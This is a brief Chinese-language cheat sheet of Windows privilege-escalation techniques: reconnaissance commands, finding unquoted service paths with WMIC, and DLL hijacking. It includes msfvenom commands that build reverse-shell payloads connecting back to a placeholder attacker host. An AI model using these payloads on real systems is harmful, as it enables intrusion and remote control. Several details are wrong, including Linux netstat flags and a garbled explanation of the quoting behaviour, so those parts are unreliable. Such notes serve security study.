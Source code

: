# Information Gathering

- 查询目前操作系统版本
  - `systeminfo`
- 查询当前进程
  - `tasklist`
- 查询已开启的端口和进程
  - `netstat -tulpn`

# Escalation Methodology

- 不带引号的文件路径
  - 原理：当win可执行文件运行时：如果给出路径+引号包含，正常执行；如果仅给出引号，执行第一个空格前的路径。
  - 通过`WMIC`找到这些错误配置。
    - `wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """`
  - 利用：如果路径没有引号，可以构造与第一个名称相同的恶意二进制文件，当服务尝试执行包含空格的路径时则会将其执行。
    - `msfvenom -p windows/meterpreter/reverse_tcp lhost=X lport=Y -f exe -o C:\Example\Sub.exe`
- DLL劫持
  - 原理：当输入表中只包含DDL名而没有路径名时，程序会先尝试从当前所在目录加载DLL，如果没有找到，则在win系统目录中查找，最后是在环境变量中查找。
  - 利用：伪造同名的DLL放到当前目录下，当原程序调用原函数时就会调用伪造的DLL。
    - `msfvenom -a x64 -p windows/x64/shell_reverse_tcp -lhost=X -lport=Y -f dll > a.dll`
